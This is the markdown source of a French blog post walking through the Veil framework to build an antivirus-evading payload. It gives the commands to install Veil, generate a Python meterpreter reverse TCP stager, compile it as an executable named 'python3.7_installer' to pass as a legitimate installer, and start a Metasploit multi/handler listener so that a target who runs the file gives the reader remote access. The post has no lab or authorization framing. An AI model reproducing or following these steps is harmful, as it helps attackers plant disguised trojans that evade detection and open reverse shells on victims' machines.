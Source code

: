 ```yaml
---
author: Funeoz
permalink: /hacking/veil_evasion_antivirus.html
title: Installation et utilisation de Veil (Evasion d'antivirus)
layout: post
category: hacking
---
```


![Veil](/techlovers/assets/2018-10-12/image1veil.jpg) 

Veil (et non pas Veil-evasion qui a été discontinué) permet de rendre indétectable à environ 60% du temps un payload qui sera executé sur la cible. Son installation est très simple.

## Installation

Tout d'abord, git clone le repository :

{% highlight bash %}
$ git clone https://github.com/Veil-Framework/Veil.git
#Puis changer de dossier
$ cd Veil 
#Exécuter le script d'installation
$ ./config/setup.sh --force --silent
{% endhighlight %}

Cela va donc installer toutes les dépendances nécessaires. 

Il va vous être demandé aussi de renseigner le chemin pour Metasploit 
(ex:/opt/metasploit-framework)

## Utilisation

Deux modules sont utilisables dans le framework Veil : Evasion et Ordonance.

Evasion permet donc d'éviter la détection des payloads et Ordnance de générer des shellcode rapidement pour les utiliser avec des exploits ou des payloads. Mais cet article ne porte que sur Evasion.

Si on va dans la partie Evasion en tapant <<use 1>> puis <<list>>, on peut voir que ces payloads peuvent être dans différents languages.
Il faut savoir qu'il existe deux "types" de language : 
- les languages à haut niveau
- les languages à bas niveau

Par exemple, le Python est un language à haut niveau. Ce qui veut dire qu'il est proche des languages réels, donc plus simple à écrire. Donc les payloads auront plus de chance à être détectés.

Alors que le go est un language à bas niveau qui se rapproche du language machine.
Donc plus compliqué à être détecté.

On va donc pour l'exemple prendre le payload 28. Pour cela <<use 28>>

On tombe donc sur pleins d'options :

{% highlight bash %}
Veil/Evasion>: use 28
===============================================================================
                                   Veil-Evasion
===============================================================================
      [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
===============================================================================

 Payload Information:

        Name:           Pure Python Reverse TCP Stager
        Language:       python
        Rating:         Excellent
        Description:    pure windows/meterpreter/reverse_tcp stager, no
                        shellcode

Payload: python/meterpreter/rev_tcp selected

 Required Options:

Name                    Value           Description
----                    -----           -----------
CLICKTRACK              X               Optional: Minimum number of clicks to execute payload
COMPILE_TO_EXE          Y               Compile to an executable
CURSORMOVEMENT          FALSE           Check if cursor is in same position after 30 seconds
DETECTDEBUG             FALSE           Check if debugger is present
DOMAIN                  X               Optional: Required internal domain
EXPIRE_PAYLOAD          X               Optional: Payloads expire after "Y" days
HOSTNAME                X               Optional: Required system hostname
INJECT_METHOD           Virtual         Virtual, Void, or Heap
LHOST                                   The listen target address
LPORT                   4444            The listen port
MINRAM                  FALSE           Check for at least 3 gigs of RAM
PROCESSORS              X               Optional: Minimum number of processors
SANDBOXPROCESS          FALSE           Check for common sandbox processes
SLEEP                   X               Optional: Sleep "Y" seconds, check if accelerated
USERNAME                X               Optional: The required user account
USERPROMPT              FALSE           Make user click prompt prior to execution
USE_PYHERION            N               Use the pyherion encrypter
UTCCHECK                FALSE           Optional: Validates system does not use UTC timezone
VIRTUALDLLS             FALSE           Check for dlls loaded in memory
VIRTUALFILES            FALSE           Optional: Check if VM supporting files exist

 Available Commands:

        back            Go back to Veil-Evasion
        exit            Completely exit Veil
        generate        Generate the payload
        options         Show the shellcode's options
        set             Set shellcode option

[python/meterpreter/rev_tcp>>]:
{% endhighlight %}

Ce qui va nous être utilise est de juste renseigner l'adresse de notre ordinateur pour le LHOST grâce à ifconfig, puis génerer le payload : 

{% highlight bash %}
[python/meterpreter/rev_tcp>>]: set LHOST (votreip)
#generation du payload
[python/meterpreter/rev_tcp>>]: generate
{% endhighlight %}

Le module va ensuite demander le nom de fichier que vous voulez donner (ex: python3.7_installer) :

{% highlight bash %}
[>] Please enter the base name for output files (default is payload): python3.7_installer
#Attention:remplacez les espaces par des tirets bas.
{% endhighlight %}

Puis celui-ci va vous demander quel module vous voulez utiliser pour générer l'exécutable (pour moi, ce sera PyInstaller) :

{% highlight bash %}
[?] How would you like to create your payload executable?

     1 - PyInstaller (default)
     2 - Py2Exe

 [>] Please enter the number of your choice: 1
{% endhighlight %}

Le fichier va donc être généré et est disponible à :

{% highlight bash %}
$ cd /var/lib/veil/output/compiled
$ ls
$ python3.7_installer.exe
{% endhighlight %}

Il faudra ensuite lancer msfconsole, sélectionner l'exploit exploit/multi/handler et le payload python/meterpreter/reverse_tcp

{% highlight bash %}
$ msfconsole
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST (votreip)
LHOST => (votreip)
msf5 exploit(multi/handler) > run
{% endhighlight %}

La session va donc être lancé puis il faudra que la personne exécute le fichier et voilà, vous aurez accès à votre cible.













